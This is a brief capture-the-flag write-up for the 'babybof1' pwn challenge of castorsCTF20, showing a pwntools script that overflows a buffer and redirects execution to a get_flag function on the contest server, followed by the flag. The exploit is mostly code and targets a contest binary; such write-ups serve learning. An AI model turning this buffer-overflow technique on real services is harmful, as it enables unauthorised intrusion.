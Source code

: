 ```yaml
---
type: "post"
title: "babybof1"
author: "tozkoparan (Ahmed Selim Üzüm)"
tags: ["writeup", "pwn", "castorsCTF20"]
---
```


With `radare2` we can see there is a `get_flag` function so let's ROP it!

```python
from pwn import *

flag_addr = 0x004006e7

p = remote("chals20.cybercastors.com", 14425)
p.recvuntil("Babybof")

padding = "A" * cyclic_find(b"qaacraac")
print(padding + p64(flag_addr))
p.sendline(padding + p64(flag_addr))
p.interactive()
```

**Flag:** `castorsCTF{th4t's_c00l_but_c4n_y0u_g3t_4_sh3ll_n0w?}`



